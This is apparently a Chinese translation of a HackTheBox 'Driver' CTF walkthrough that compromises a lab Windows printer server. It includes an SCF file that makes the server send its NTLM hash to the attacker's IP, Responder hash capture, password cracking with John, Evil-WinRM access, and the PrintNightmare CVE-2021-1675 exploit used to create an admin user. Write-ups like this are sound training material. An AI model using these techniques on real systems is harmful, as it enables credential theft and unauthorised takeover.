









# 来自 HackTheBox 的驱动程序—详细演练

> 原文：<https://infosecwriteups.com/driver-from-hackthebox-detailed-walkthrough-dea776b1b53d?source=collection_archive---------0----------------------->

展示完成盒子所需的所有工具和技术。

# 机器信息


黑客盒子的司机

驱动程序是 HackTheBox 上的一个简单的 Windows 机器，由 [MrR3boot](https://app.hackthebox.com/users/13531) 创建。它强调了打印机服务器没有通过允许访问管理门户的默认凭证得到适当保护的危险。打印机管理软件不安全，允许上传和执行未经授权的用户文件。导致我们利用 PrintNightmare 漏洞 CVE-2021–1675 来获取根用户访问权限。

所需的技能是 web 和操作系统枚举，以及当前漏洞利用的知识。学到的技能是创建恶意文件和使用响应者通过使用中间人攻击来捕获哈希。

# 初步侦察

像往常一样，让我们从 Nmap 开始:



所有 TCP 端口的 Nmap 骗局

我们有一台 Windows 服务器，其网站端口为 80，RPC 端口为 135，SMB 端口为 445。让我们首先将 IP 添加到我们的 hosts 文件中:

```
┌──(root💀kali)-[~/htb/driver]
└─# echo "10.10.11.106 driver.htb" >> /etc/hosts
```

# RPC 转储

从这个盒子的名称和主题，我们知道它是基于 PrintNightmare 漏洞。我们可以使用 rpcdump 检查它是否容易受到攻击:

```
┌──(root💀kali)-[~/htb/driver]
└─# python3 rpcdump.py 10.10.11.106 | grep MS-RPRN
Protocol: [MS-RPRN]: Print System Remote Protocol
```

# 打印机门户

这确认了打印服务正在其上运行。现在我们看看端口 80，它是打印机管理软件的登录页面，需要凭据:



登录安全对话框

这里的提示是 admin，我尝试了明显的 admin:admin，这使我进入:



MFP 固件更新中心

唯一有效的页面是固件更新页面:



固件更新

# 恶意 SCF 文件

在这个页面上可以上传我们自己的文件。所以我们正在寻找一种执行有效载荷的方式，经过一番搜索，我在 Pentestlab 上找到了[这篇](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks)很棒的文章。在此之后，我们可以创建一个 scf 文件，这将导致服务器尝试联系我们的攻击机器，在那里我们有 Responder 侦听捕获帐户的哈希正在使用。

首先创建我们的恶意 scf 文件:

```
┌──(root💀kali)-[~/htb/driver]
└─# cat @pencer.scf      
[Shell]
Command=2
IconFile=\\10.10.14.192\share\pencer.ico
[Taskbar]
Command=ToggleDesktop
```

这里我有我的 Kali IP 在 tun0 上，图标和共享并不存在，他们只是需要这个工作。

现在上传文件:



文件上传

# 回答者

确保您有应答者监听:

```
┌──(root💀kali)-[~/htb/driver]
└─# responder -wrf --lm -v -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.6.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [ON]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.192]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-QO2U5X54CZL]
    Responder Domain Name      [1P4E.LOCAL]
    Responder DCE-RPC Port     [45284]

[+] Listening for events...
[SMB] NTLMv2 Client   : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:e4<HIDDEN>00
<SNIP>
[+] Exiting...
```

# 哈希破解

点击提交按钮上传我们的有效负载后，我们看到 Responder 已经捕获了用户散列。我们可以尝试破解它:



识别哈希类型

将 John 与 rockyou 配合使用，只需几秒钟:

```
┌──(root💀kali)-[~/htb/driver]
└─# john hash.txt --format=netntlmv2 --wordlist=rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<HIDDEN>          (tony)
1g 0:00:00:00 DONE (2021-10-27 17:26) 50.00g/s 1638Kp/s 1638Kc/s 1638KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

# 邪恶-WinRM

我们现在有了用户名和密码，所以可以使用 Evil-WinRM 进行连接。在此之前，让我们抓住[这个](https://github.com/calebstewart/CVE-2021-1675)版本的 PrintNightmare 公开漏洞:



下载 CVE-2021–1675 漏洞

现在我们可以连接到盒子:

```
┌──(root💀kali)-[~/htb/driver]
└─# evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
```

# 用户标志

不妨抓住用户标志:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type ../Desktop/user.txt
<HIDDEN>
```

# 打印噩梦漏洞

现在上传我们的漏洞:

```
*Evil-WinRM* PS C:\Users\tony\Documents> upload /root/htb/driver/CVE-2021-1675.ps1
Info: Uploading /root/htb/driver/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1
Data: 238080 bytes of 238080 bytes copied
Info: Upload successful!
```

如果我们尝试导入 PowerShell 模块，我们会得到一个错误，因为执行策略设置为 restricted:

```
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module ./CVE-2021-1675.ps1
File C:\Users\tony\Documents\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. 
At line:1 char:1
+ Import-Module ./CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

对于当前用户，我们可以通过将它设置为无限制来轻松解决这个问题:

```
*Evil-WinRM* PS C:\Users\tony\Documents> Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

现在我们可以导入它并运行以创建我们的管理员用户:



导入并运行漏洞利用

# 权限提升

最后，我们可以使用新帐户连接新的 Evil-WinRM 会话:



Evil-WinRM 连接到新帐户

# 根标志

剩下的就是抓根旗了:

```
*Evil-WinRM* PS C:\Users\pencer\Documents> cd c:\
*Evil-WinRM* PS C:\> cd users
*Evil-WinRM* PS C:\users> cd administrator
*Evil-WinRM* PS C:\users\administrator> type desktop\root.txt
<HIDDEN>
```

这非常简单，但是玩 PrintNightmare 很有趣。我在这里写了一篇文章，更加详细地描述了 PrintNightmare。去看看！

下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 2 月 26 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-driver/)*。*